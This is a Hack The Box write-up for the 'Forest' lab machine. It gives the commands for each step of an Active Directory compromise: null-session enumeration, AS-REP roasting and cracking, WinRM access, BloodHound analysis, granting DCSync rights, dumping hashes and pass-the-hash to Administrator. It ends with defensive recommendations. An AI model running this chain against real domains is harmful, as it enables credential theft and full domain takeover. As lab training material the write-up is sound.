# HTB - Forest

**IP Address:** `10.129.95.210`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #ActiveDirectory, #Kerberos, #ASREP-Roasting, #RPC, #BloodHound, #DCSync, #WinRM, #PassTheHash

---
## Synopsis

Forest is an easy Windows machine focused on Active Directory exploitation.  
It involves enumerating domain users via **RPC null sessions**, exploiting an **AS-REP Roasting** vulnerability to crack credentials for a service account, gaining access through **WinRM**, and escalating privileges to Domain Administrator by abusing **Account Operators** group membership to grant **DCSync** rights via the **Exchange Windows Permissions** group, identified with **BloodHound**.

---
## Skills Required

- Basic Active Directory enumeration  
- Familiarity with Kerberos authentication  
- Knowledge of password cracking with John/Hashcat  
- Experience with domain privilege escalation (BloodHound, DCSync)

## Skills Learned

- RPC null session enumeration for domain users and groups  
- DNS enumeration and zone transfer attempts  
- Exploiting AS-REP Roasting with Impacket tools  
- Using WinRM for remote access via Evil-WinRM  
- BloodHound CE for AD attack path analysis  
- Abusing WriteDacl to grant DCSync rights  
- Pass-the-Hash for lateral movement

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.95.210
```

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.95.210 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery  
- `-oG`: Output in grepable format



Extract open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49676,49677,49684,49706,49961 10.129.95.210 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format



**Findings:**

| Port   | Service          | Description                              |
| ------ | ---------------- | ---------------------------------------- |
| 53     | DNS              | Domain Name System                       |
| 88     | Kerberos         | Authentication protocol                  |
| 135    | MS RPC           | Microsoft RPC endpoint mapper            |
| 139    | NetBIOS          | Legacy SMB session service               |
| 389    | LDAP             | Directory Services (Active Directory)    |
| 445    | SMB              | File and printer sharing                 |
| 464    | kpasswd          | Kerberos password change service         |
| 593    | RPC over HTTP    | Remote administration service            |
| 636    | LDAPS            | Secure LDAP                              |
| 3268   | Global Catalog   | AD Global Catalog                        |
| 5985   | WinRM            | Windows Remote Management                |
| 9389   | AD Web Services  | AD Web-based management interface        |
| 496xx  | Ephemeral        | Dynamic ports for RPC                    |

At this point, we confirm the host is a **Windows Domain Controller**.

---
## 2. Service Enumeration

### 2.1 SMB Enumeration

We use CrackMapExec for a quick fingerprint:

```bash
crackmapexec smb 10.129.95.210
```

```
SMB  10.129.95.210  445  FOREST  [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
```

SMB signing is enabled, so relay attacks are not viable.

We attempt a null session with `smbclient`:

```bash
smbclient -L 10.129.95.210 -N
```



Login succeeds but no useful shares are exposed. We add the domain to `/etc/hosts`:

```bash
echo "10.129.95.210 htb.local forest.htb.local" >> /etc/hosts
```

---
### 2.2 DNS Enumeration

We query DNS to check for useful records:

```bash
dig @10.129.95.210 htb.local
```



Enumerate mail servers:

```bash
dig @10.129.95.210 htb.local mx
```



Attempt a zone transfer:

```bash
dig @10.129.95.210 htb.local axfr
```



The zone transfer fails — no sub-domain information leaked.

---
### 2.3 RPC Enumeration

Since this is an AD machine, we try `rpcclient` with a null session:

```bash
rpcclient -U "" 10.129.95.210 -N
```

This grants us access. We enumerate domain users:

```bash
rpcclient $> enumdomusers
```



We extract just the usernames into a file for later use:

```bash
rpcclient -U "" 10.129.95.210 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users
```



We also enumerate domain groups:



Querying the Domain Admins group reveals that only `Administrator` (RID 0x1f4) has access — useful for future pivoting:



We can also query display info for additional details:



No passwords revealed in this case.

---
## 3. Foothold

### 3.1 Extracting AS-REP Hash

With an AD machine and a user list, we attempt an AS-REP Roasting attack using Impacket. This targets accounts that don't require Kerberos pre-authentication:

```bash
impacket-GetNPUsers htb.local/ -no-pass -usersfile users
```



The account `svc-alfresco` has `UF_DONT_REQUIRE_PREAUTH` set, and we obtain its AS-REP hash.

---
### 3.2 Cracking the Hash

We crack the hash offline with John the Ripper:

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
```



**Password found:** `s3rvice`

> **Note:** The user in the hash is `svc-alfresco`, not `lucinda` — always check the principal in the Kerberos ticket.

---
### 3.3 Validating Credentials

We validate the credentials with CrackMapExec:

```bash
crackmapexec smb 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```



Credentials are valid, but the user is not admin on the box. We check the available shares:

```bash
crackmapexec smb 10.129.95.210 -u 'svc-alfresco' -p 's3rvice' --shares
```



Only read access — no relevant information in these folders.

---
### 3.4 WinRM Access

Port 5985 (WinRM) is open, so we check if `svc-alfresco` is in the Remote Management Users group:

```bash
crackmapexec winrm 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```



**Pwn3d!** — the user has WinRM access. We get an interactive shell:

```bash
evil-winrm -i 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
```





🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Identifying the Path

We can see other user directories but don't have access:

```powershell
dir C:\Users
```



We need to escalate to Administrator. For AD environments, **BloodHound** is the best tool to map trust relationships and identify privilege escalation paths.

---
### 4.2 Domain Enumeration with BloodHound

We collect AD data from our attacking machine using the Python-based collector — no need to upload anything to the victim:

```bash
bloodhound-python -d htb.local -u 'svc-alfresco' -p 's3rvice' -gc forest.htb.local -c all -ns 10.129.95.210
```



This generates JSON files with all AD relationships (users, groups, computers, domains, etc.).

We start **BloodHound Community Edition** with Docker:

```bash
curl -L https://ghst.ly/getbhce | docker compose -f - up
```



The logs show the initial admin password. We open `http://localhost:8080`, log in, and upload the JSON files.

Using the **Pathfinding** feature from `SVC-ALFRESCO@HTB.LOCAL` to `ADMINISTRATOR@HTB.LOCAL`:



The graph reveals the full attack chain:

1. **svc-alfresco** → MemberOf → **Service Accounts**  
2. **Service Accounts** → MemberOf → **Privileged IT Accounts**  
3. **Privileged IT Accounts** → MemberOf → **Account Operators**  
4. **Account Operators** → **GenericAll** → **Exchange Windows Permissions**  
5. **Exchange Windows Permissions** → **WriteDacl** → **HTB.LOCAL**  
6. **HTB.LOCAL** → Contains → **Administrator**

**GenericAll** means Account Operators can add members to Exchange Windows Permissions. **WriteDacl** means members of that group can modify the domain's ACL — specifically, grant DCSync rights.

---
### 4.3 Exploiting the Attack Chain

From the Evil-WinRM shell as `svc-alfresco`, we create a new domain user and add it to Exchange Windows Permissions:

```powershell
net user moka moka123@ /add /domain
net group "Exchange Windows Permissions" moka /add
```

We create a credential object and upload [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) via Evil-WinRM's built-in `upload` command to grant DCSync rights:

```powershell
$SecPassword = ConvertTo-SecureString 'moka123@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\moka', $SecPassword)
upload /path/to/PowerView.ps1
. .\PowerView.ps1
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity moka -Rights DCSync
```



---
### 4.4 DCSync Attack

From our attacking machine, we dump all domain hashes:

```bash
impacket-secretsdump htb.local/moka:moka123@@10.129.95.210
```



We extract the **Administrator NTLM hash**: `32693b11e6aa90eb43d32c72a07ceea6`

---
### 4.5 Administrator Access

We use Pass-the-Hash with Evil-WinRM to get a shell as Administrator:

```bash
evil-winrm -i 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **RPC Null Session** → Enumerated all domain users.  
2. **AS-REP Roasting** → Extracted and cracked hash for `svc-alfresco`.  
3. **WinRM Access** → Logged in as `svc-alfresco`.  
4. **BloodHound Analysis** → Identified Account Operators → Exchange Windows Permissions → WriteDacl chain.  
5. **DCSync Attack** → Created user, granted DCSync rights, dumped Administrator hash.  
6. **Pass-the-Hash** → Gained Administrator shell and root flag.

---
## Defensive Recommendations

- Enforce **Kerberos Pre-Authentication** for all accounts to prevent AS-REP Roasting.  
- Disable **RPC null sessions** to prevent unauthenticated user enumeration.  
- Use **strong, complex passwords** for service accounts to resist offline cracking.  
- Regularly audit **domain group memberships**, especially Account Operators and Exchange-related groups.  
- Restrict **DCSync rights** to only necessary accounts and monitor for abnormal replication requests.  
- Remove or limit the **Exchange Windows Permissions** group's WriteDacl rights on the domain object.  
- Monitor for abnormal **Kerberos ticket requests** and **new domain user creation**.
